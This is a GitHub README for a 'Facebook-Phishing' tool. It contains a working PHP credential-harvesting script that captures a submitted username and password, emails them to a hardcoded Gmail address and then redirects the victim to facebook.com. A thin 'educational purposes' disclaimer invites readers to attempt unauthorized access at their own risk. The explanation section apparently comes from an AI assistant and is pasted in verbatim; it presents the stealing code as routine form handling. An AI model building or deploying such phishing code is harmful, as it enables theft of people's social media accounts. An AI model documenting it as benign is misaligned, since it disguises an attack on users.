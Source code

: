# Facebook-Phishing
This tool is developed for educational purposes. It only demonstrates how phishing works. If anybody wants to gain unauthorized access to someones social media, he/she may try out this at his/her own risk. You have your own responsibilities, use it with your own responsibility and you are liable to any damage or violation of laws by this tool. The author is not responsible for any misuse of facebook-phishing!
Certainly, here's an explanation you can include in your README on GitHub to help others understand the PHP code you provided:

---
## PHP Code Explanation

This PHP code snippet demonstrates how to process form submissions using the HTTP POST method and send an email with the collected form data. It's important to note that this example serves for educational purposes and should not be used in a production environment without proper security considerations.

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST["username"];
    $password = $_POST["password"];

    // Send email
    $to = "hanzmark03@gmail.com";
    $subject = "Login Details";
    $message = "Username: $username\nPassword: $password";
    $headers = "From: webmaster@example.com";

    if (mail($to, $subject, $message, $headers)) {
        // Email sent successfully, perform the redirection
        header("Location: https://facebook.com");
        exit(); // Make sure to exit to prevent further execution
    } else {
        echo "Failed to send email.";
    }
}
?>
```

### Explanation:

1. The code checks if the current server request method is "POST." This typically indicates that a form has been submitted.

2. If the request method is indeed "POST," the code extracts the values of the "username" and "password" fields from the submitted form data using the `$_POST` superglobal.

3. The code constructs an email containing the collected username and password information. It specifies the recipient's email address, email subject, message body, and a "From" header.

4. The `mail()` function is used to send the email. It takes the recipient's email address, subject, message, and headers as parameters. If the email is sent successfully, the code proceeds to the next steps. If the email fails to send, a "Failed to send email" message is echoed.

5. In the event that the email is sent successfully (determined by the `mail()` function), the code sets an HTTP header to redirect the user's browser to "https://facebook.com."

6. The `exit()` function is called to terminate the script execution immediately after setting the redirect header. This ensures that no further code is executed after the redirection.

**Important Note:** This code has security implications and should not be used to handle sensitive information without proper security measures. Email is not a secure method for transmitting sensitive data, and the redirection could be misused for malicious purposes. Always follow best practices for security when handling user data.

---

Feel free to modify and enhance this explanation as needed to better suit your project's context and audience.